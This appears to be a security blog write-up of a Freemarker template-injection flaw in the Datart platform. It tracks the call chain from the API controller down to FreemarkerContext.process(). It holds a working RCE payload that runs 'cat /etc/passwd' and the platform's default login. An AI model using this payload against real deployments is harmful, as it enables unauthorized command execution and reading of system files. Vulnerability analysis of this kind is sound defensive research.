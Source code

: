 ```yaml
---
title: "Datart Freemarker Template Injection"
date: 2024-06-09
tags:
  - Java
  - 模版注入
categories:
  - Web 安全
---
```


Attempting to analyze the function call chain of a Java vulnerability.

<!--more-->

[Datart](https://github.com/running-elephant/datart) is a data visualization platform that allows users to create reports and dashboards to perform visualized data analysis. Recently we discovered a Freemarker template injection vulnerability that can easily leads to RCE.

## Steps to reproduce

According to [offical docs](https://running-elephant.github.io/datart-docs/docs/), we can deploy datart quickly with Docker:

```
$ docker run -p 8083:8080 datart/datart
```

Use the default credential `demo/123456` to log in. In the Views module, we can create a new View, and here we choose to create an SQL View:

![](0.png)

We soon realize that we must select a data source, so we create one first. JDBC data sources require an available database connection, which can be cumbersome. Therefore, we create an HTTP data source with default parameters:

![](1.png)

Return to the SQL View creation page, select the data source, and then inject the Freemarker template injection payload:

```java
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /etc/passwd")}
```

Clicking "Run" will execute our command and show the command result as well:

![](feature.png)

Crucial stack trace:

```
at datart.core.base.exception.Exceptions.tr(Exceptions.java:52)
at datart.data.provider.calcite.SqlValidateUtils.validateQuery(SqlValidateUtils.java:107)
at datart.data.provider.calcite.SqlQueryScriptProcessor.parseSelectSql(SqlQueryScriptProcessor.java:114)
at datart.data.provider.calcite.SqlQueryScriptProcessor.process(SqlQueryScriptProcessor.java:81)
at datart.data.provider.jdbc.SqlScriptRender.render(SqlScriptRender.java:81)
at datart.data.provider.HttpDataProvider.getQueryKey(HttpDataProvider.java:120)
at datart.data.provider.ProviderManager.execute(ProviderManager.java:129)
at datart.server.service.impl.DataProviderServiceImpl.testExecute(DataProviderServiceImpl.java:210)
at datart.server.controller.DataProviderController.testExecute(DataProviderController.java:95)
```

## Analysis

We can perform the analysis with or without the stack trace above. When we don't have the stack trace, we can simply locate Controller-level code according to the API path `/api/v1/data-provider/execute/test`. This leads us to `server/src/main/java/datart/server/controller/DataProviderController.java` where Service-level code `dataProviderService.testExecute()` is called:

```java
    @ApiOperation(value = "Execute Script")
    @PostMapping(value = "/execute/test")
    public ResponseData<Dataframe> testExecute(@RequestBody TestExecuteParam executeParam) throws Exception {
        return ResponseData.success(dataProviderService.testExecute(executeParam));
    }
```

In `server/src/main/java/datart/server/service/impl/DataProviderServiceImpl.java`, `testExecute()` passes user input parameters into `queryScript.script` (with no SSTI filters) and calls `dataProviderManager.execute()`:

```java
    @Override
    public Dataframe testExecute(TestExecuteParam testExecuteParam) throws Exception {
        // ...
        QueryScript queryScript = QueryScript.builder()
                .test(true)
                .sourceId(source.getId())
                .script(testExecuteParam.getScript())
                .scriptType(testExecuteParam.getScriptType())
                .variables(variables)
                .build();
        // ...
        return dataProviderManager.execute(providerSource, queryScript, executeParam);
    }
```

In `data-providers/data-provider-base/src/main/java/datart/data/provider/ProviderManager.java`, `execute()` will preprocess the Query and call `dataProvider.getQueryKey()`:

```java
    @Override
    public Dataframe execute(DataProviderSource source, QueryScript queryScript, ExecuteParam param) throws Exception {

        //sql + param preprocessing
        ProcessorResponse preProcessorRes = this.preProcessorQuery(source, queryScript, param);
        if (!preProcessorRes.isSuccess()) {
            return Dataframe.empty();
        }
        Dataframe dataframe;

        DataProvider dataProvider = getDataProviderService(source.getType());

        String queryKey = dataProvider.getQueryKey(source, queryScript, param);
        // ...
        return dataframe;
    }
```

Datart supports 3 types of Data Provider: JDBC, HTTP and File. Here we use more-complexed JDBC Data Provider as an example, and the rest two are the same. In `data-providers/jdbc-data-provider/src/main/java/datart/data/provider/JdbcDataProvider.java`, `getQueryKey()` called `adapter.getQueryKey()`:

```java
    @Override
    public String getQueryKey(DataProviderSource config, QueryScript script, ExecuteParam executeParam) throws Exception {
        JdbcDataProviderAdapter adapter = matchProviderAdapter(config);
        return adapter.getQueryKey(script, executeParam);
    }
```

In `data-providers/jdbc-data-provider/src/main/java/datart/data/provider/jdbc/adapters/JdbcDataProviderAdapter.java`, a `SqlScriptRender` object is created and its `render()` method is called:

```java
    public String getQueryKey(QueryScript script, ExecuteParam executeParam) throws SqlParseException {
        SqlScriptRender render = new SqlScriptRender(script, executeParam, getSqlDialect(), jdbcProperties.isEnableSpecialSql(), driverInfo.getQuoteIdentifiers());
        return "Q" + DigestUtils.md5Hex(render.render(true, supportPaging(), true) + ";includeColumns:" + JSON.toJSONString(executeParam.getIncludeColumns()) + ";viewId:" + script.getViewId() + ";pageInfo:" + JSON.toJSONString(executeParam.getPageInfo()));
    }
```

What does this `render()` method do? In `data-providers/data-provider-base/src/main/java/datart/data/provider/jdbc/SqlScriptRender.java`, we see that it will use `getScriptProcessor()` to retrieve a `ScriptProcessor` object, and then call its `process()` method:

```java
    public String render(boolean withExecuteParam, boolean withPage, boolean onlySelectStatement) throws SqlParseException {
        //get the original value before processing the script
        QueryScriptProcessResult result = getScriptProcessor().process(queryScript);
        // ...
        return selectSql;
    }
```

When we use SQL view, it returns a `SqlQueryScriptProcessor` object:

```java
    public QueryScriptProcessor getScriptProcessor() {
        switch (queryScript.getScriptType()) {
            case SQL:
                return new SqlQueryScriptProcessor(enableSpecialSQL, sqlDialect);
            case STRUCT:
                return new StructScriptProcessor();
            default:
                Exceptions.msg("Unsupported script type " + queryScript.getScriptType());
                return null;
        }
    }
```

Finally, in `data-providers/data-provider-base/src/main/java/datart/data/provider/calcite/SqlQueryScriptProcessor.java`, `process()` will call `FreemarkerContext.process()` to parse `queryScript.script`, triggering command execution:

```java
    @Override
    public QueryScriptProcessResult process(QueryScript queryScript) {

        String script;

        //用freemarker处理脚本中的条件表达式
        Map<String, ?> dataMap = queryScript.getVariables()
                .stream()
                .collect(Collectors.toMap(ScriptVariable::getName,
                        variable -> {
                            if (CollectionUtils.isEmpty(variable.getValues())) {
                                return "";
                            } else if (variable.getValues().size() == 1) {
                                return variable.getValues().iterator().next();
                            } else return variable.getValues();
                        }));

        script = FreemarkerContext.process(queryScript.getScript(), dataMap);
        // ...
        return result;
    }
```

(`data-providers/data-provider-base/src/main/java/datart/data/provider/freemarker/FreemarkerContext.java`)

```java
    public static String process(String content, Map<String, ?> dataModel) {
        String key = DigestUtils.md5DigestAsHex(content.getBytes());
        try {
            StringTemplateLoader.SCRIPT_MAP.put(key, content);
            Template template = conf.getTemplate(key);
            StringWriter writer = new StringWriter();
            template.process(dataModel, writer);
            return writer.toString();
        } catch (Exception e) {
            log.error("freemarker parse error", e);
        }
        return content;
    }
```

## Reference

1. [Breaking the Barrier: Remote Code Execution via SSTI in FreeMarker Template Engine](https://medium.com/@armaanpathan/breaking-the-barrier-remote-code-execution-via-ssti-in-freemarker-template-engine-9797079752ac)
